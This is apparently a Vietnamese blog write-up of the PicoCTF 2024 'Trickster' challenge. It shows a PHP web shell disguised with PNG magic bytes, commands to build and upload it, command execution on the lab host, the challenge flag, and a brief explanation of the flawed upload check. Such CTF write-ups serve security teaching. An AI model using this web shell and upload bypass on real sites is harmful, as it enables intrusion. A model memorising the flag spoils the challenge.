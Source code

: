 ```yaml
---
title: Trickster
date: 2025-10-27 23:00:00 +0700
categories: [Web Exploitation, PicoCTF 2024, Medium]
tags: [web, pico, medium]
author: khoa
description: I found a web app that can help process images, PNG images only!
toc: true
comments: true
---
```


## **Cách mình làm**

### Soi web
Vừa vào web thì mình thấy nó cho mình phần upload file như thế này:
![img-description](https://i.ibb.co/tTkXCvyj/image-2025-10-27-224600263.png)
_Sau khi vào web_

Check thử robots.txt xem có gì hot:
![img-description](https://i.ibb.co/Z6nSY62c/image-2025-10-27-224740109.png)
_Robots.txt_

Vậy là mình biết nó có phần /uploads/

### Nghịch
Kỹ thuật mình sẽ sử dụng là ImageTragick!, thêm magic byte của file png vào file .php rồi upload lên cho nó thực thi lệnh (RCE)

#### Shell.php
Đầu tiên các bạn cần chuẩn bị 1 file shell.php với nội dung như sau:
```php
<?php system($_GET['cmd']); ?>
```

#### PNG Header
Sau đó các bạn thêm PNG Header vào để nguỵ trang:
##### PowerShell (Windows)
```powershell
[System.IO.File]::WriteAllBytes("shell.php.png", @(0x89,0x50,0x4E,0x47,0x0D,0x0A,0x1A,0x0A))
Get-Content shell.php -Raw | Out-File -Append -Encoding ASCII shell.php.png
```

##### Bash (Linux)
```bash
echo -ne '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > shell.png.php
cat shell.php >> shell.png.php
```

![img-description](https://i.ibb.co/LXN3RZvN/image-2025-10-27-225425603.png)
_Sau khi tạo file nguỵ trang_

#### Upload File

Dùng Burp Suite hoặc curl:
```bash
curl -F 'file=@shell.png.php' http://atlas.picoctf.net:PORT/
```

Khi thành công → file được lưu tại `/uploads/shell.png.php`

![img-description](https://i.ibb.co/QFCYL4QP/image-2025-10-27-225602779.png)
_Sau khi upload file_

#### RCE
Truy cập shell:
```bash
curl "http://atlas.picoctf.net:PORT/uploads/shell.png.php?cmd=whoami"
```

Và mình đã RCE thành công!!!
![img-description](https://i.ibb.co/Lz7HNFcp/image-2025-10-27-225758108.png)
_RCE thành công_

Thử ls quanh quanh thì thấy có cái file txt này lạ lạ:
![img-description](https://i.ibb.co/4wTnM54W/image-2025-10-27-225906341.png)
_ls quanh quanh_

Cat thử thì có flag nè!!!
![img-description](https://i.ibb.co/6JbkrXd4/image-2025-10-27-230025466.png)
_lòi flag_

FLAG: **picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}**

## **Kết luận**
### Bản chất
Đây là một lỗ hỏng upload file, bypass bằng các Magic Bytes của file png, từ đó các bạn có thể thực thi lệnh

### Cách làm
B1: Tạo file png giả, có chứa nội dung của file php để thực thi shell
B2: Upload lên web
B3: Phá!!!

### Tại sao Magic Bytes có thể bypass được và cho phép RCE???
Lý do cốt lõi là sự kiểm tra không đầy đủ.

Hệ thống chỉ quan tâm đến "cái mác" (magic byte) mà bỏ qua hoàn toàn "nội dung" (phần còn lại của tệp). Kẻ tấn công chỉ cần "dán đúng mác" lên một "gói hàng cấm" là có thể vượt qua trạm kiểm soát.

Nói chung là cũng tại thằng dev mà thôi =)))

## **Lời kết**

Chúc các bạn đánh CTF vui vẻ!!!
